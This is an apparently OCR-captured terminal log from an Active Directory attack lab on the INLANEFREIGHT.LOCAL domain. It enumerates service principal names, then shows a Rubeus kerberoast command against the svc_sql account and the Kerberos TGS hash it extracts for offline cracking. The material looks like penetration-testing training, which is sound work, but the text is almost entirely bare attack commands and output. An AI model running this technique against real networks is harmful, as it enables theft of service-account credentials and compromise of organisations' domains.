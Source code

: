 	HOST/DC01.INLANEFREIGHT.LOCAL/INLANEFREIGHT.LOCAL
	E3514235-4B06-11D1-AB04-00C04FC2DCD2/03d2eace-bb3d-467e-a00a-eab0dbfaa065/INLANEFREIGHT.LOCAL
	ldap/DC01/INLANEFREIGHT
	ldap/03d2eace-bb3d-467e-a00a-eab0dbfaa065._msdcs.INLANEFREIGHT.LOCAL
	ldap/DC01.INLANEFREIGHT.LOCAL/INLANEFREIGHT
	ldap/DC01
	ldap/DC01.INLANEFREIGHT.LOCAL
	ldap/DC01.INLANEFREIGHT.LOCAL/INLANEFREIGHT.LOCAL
CN=krbtgt,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
	kadmin/changepw
CN=svc_sql,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
	MSSQLSvc/SQL01.inlanefreight.local:1433
CN=sqlprod,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
	MSSQLSvc/SQL02.inlanefreight.local:1433
CN=sqldev,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
	MSSQLSvc/SQL-DEV01.inlanefreight.local:1433
CN=sqltest,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
	MSSQLSvc/DEVTEST.inlanefreight.local:1433
CN=sqlqa,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
	MSSQLSvc/QA001.inlanefreight.local:1433
CN=azureconnect,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
	adfsconnect/azure01.inlanefreight.local
CN=backupjob,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
	backupjob/veam001.inlanefreight.local
CN=WEB-WIN01,CN=Computers,DC=INLANEFREIGHT,DC=LOCAL
	RestrictedKrbHost/WEB-WIN01
	HOST/WEB-WIN01
	RestrictedKrbHost/WEB-WIN01.INLANEFREIGHT.LOCAL
	HOST/WEB-WIN01.INLANEFREIGHT.LOCAL
CN=MS01,CN=Computers,DC=INLANEFREIGHT,DC=LOCAL
	tapinego/MS01
	tapinego/MS01.INLANEFREIGHT.LOCAL
	TERMSRV/MS01
	TERMSRV/MS01.INLANEFREIGHT.LOCAL
	WSMAN/MS01
	WSMAN/MS01.INLANEFREIGHT.LOCAL
	RestrictedKrbHost/MS01
	HOST/MS01
	RestrictedKrbHost/MS01.INLANEFREIGHT.LOCAL
	HOST/MS01.INLANEFREIGHT.LOCAL

c:\Rubeus.exe kerberoast /user:svc_sql /nowrap outfile:type.hash

[*] SamAccountName         : svc_sql
[*] DistinguishedName      : CN=svc_sql,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
[*] ServicePrincipalName   : MSSQLSvc/SQL01.inlanefreight.local:1433
[*] PwdLastSet             : 3/30/2022 2:14:52 AM
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash                   : $krb5tgs$23$*svc_sql$INLANEFREIGHT.LOCAL$MSSQLSvc/SQL01.inlanefreight.local:1433@INLANEFREIGHT.LOCAL*$F8078F3D32EC02ABF629E71454AFD75E$D7D3E2E0005DF7C016D4E8C7A98E7AD4F990DF89580669312B91E4ED397B59A13E8B6D28BBC9BC41559F255DCF88319724C651C8509CA8BD059AD1AA633EE4BB6F
